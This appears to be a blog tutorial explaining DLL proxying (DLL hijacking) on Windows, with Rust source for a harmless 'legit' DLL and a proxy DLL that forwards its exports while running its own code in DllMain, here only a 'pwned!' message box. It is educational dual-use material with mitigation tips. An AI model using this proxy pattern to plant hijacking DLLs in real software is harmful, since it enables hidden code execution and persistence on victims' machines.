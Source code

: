 ```yaml
---
title: "DLL proxying with Rust"
date: "2023-11-23"
draft: "false"
---
```


# DLL proxying with Rust
## what is dll proxying?
DLL proxying, also known as DLL redirection or DLL hijacking, is a technique used by attackers or developers to manipulate the way Windows loads dynamic link libraries (DLLs). DLLs are files that contain code and data that multiple programs can use simultaneously. They provide a way to modularize code and promote code reuse.

DLL proxying involves placing a malicious or modified DLL in a location that is searched by a target application before the legitimate DLL is located. When the application attempts to load a DLL, the operating system searches for the DLL in a specific order, including the application's directory, the system directories, and directories listed in the system's PATH environment variable. If a DLL with the same name is found in one of these directories, it may be loaded instead of the intended DLL.

This technique can be exploited for various purposes:

Malicious Activities: Attackers may use DLL proxying to replace a legitimate DLL with a malicious one, allowing them to execute arbitrary code, gain unauthorized access, or perform other malicious activities.

Debugging and Testing: Developers might use DLL proxying during debugging or testing to replace standard DLLs with custom versions to observe and manipulate the behavior of a program.

To mitigate the risks associated with DLL proxying, it's essential to follow security best practices, such as:

Use Secure Locations: Place DLLs in secure locations, and avoid placing them in directories that are writable by standard users.

Use Digital Signatures: Digitally sign DLLs to ensure their authenticity. This helps prevent the loading of tampered or malicious DLLs.

Update Software: Keep software and operating systems up-to-date to benefit from security patches that address known vulnerabilities.

Security Software: Employ security software that can detect and prevent DLL proxying attacks.

Microsoft has also introduced various security features and best practices to minimize the risk of DLL attacks, and developers should adhere to these guidelines to ensure the security of their applications.

## Legit DLL
https://github.com/famasoon/legitdll

`cargo.toml`

```
[package]
name = "legitdll"
version = "0.1.0"
edition = "2021"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
winapi = {version="0.3.9", features = ["winuser"]}

[lib]
name = "legitdll"
crate-type = ["cdylib"]
```

`src/lib.rs`

```
use winapi::um::winuser::MessageBoxA;

#[no_mangle]
pub unsafe extern "C" fn legitfunction() {
    MessageBoxA(
        std::ptr::null_mut(),
        "Hello from legitfunction!\0".as_ptr()as *const i8 ,
        "Hello\0".as_ptr() as *const i8,
        0,
    );
}
```

This dll popup Hello message on MessageBox.

And `cargo build --release` output place sample `"C:\Users\81908\work\legitdll\target\release\legitdll.dll"`

## Proxying DLL
https://github.com/famasoon/proxy_dll

`cargo.toml`

```
[package]
name = "testdll"
version = "0.1.0"
edition = "2021"

# See more keys and their definitions at https://doc.rust-lang.org/cargo/reference/manifest.html

[dependencies]
winapi = {version="0.3.9",features = ["winuser"]}
forward-dll = "0.1.5"

[lib]
name = "mydll"
crate-type = ["cdylib"]
```

`src/lib.rs`


```
use forward_dll;
use winapi::um::winuser::MessageBoxA;
forward_dll::forward_dll!(
    r#"C:\Users\81908\work\legitdll\target\release\legitdll.dll"#,
    DLL_VERSION_FORWARDER,
    legitfunction
);
#[no_mangle]
pub unsafe extern "C" fn DllMain(size1: isize, reason: u32, lpvoid: *const u8) -> u32 {
    if reason == 1 {
        MessageBoxA(
            std::ptr::null_mut(),
            "this is from malicious dll\0".as_ptr() as *const i8,
            "pwned!\0".as_ptr() as *const i8,
            0,
        );
        let _ = forward_dll::utils::load_library(r#"C:\Users\81908\work\legitdll\target\release\legitdll.dll"#);
        let _ = DLL_VERSION_FORWARDER.forward_all();
        return 1;
    }
    return 1;
}
```

Build it, `cargo build --release`, and run it `rundll32.exe .\target\release\mydll.dll,legitfunction`
So we can pwn it!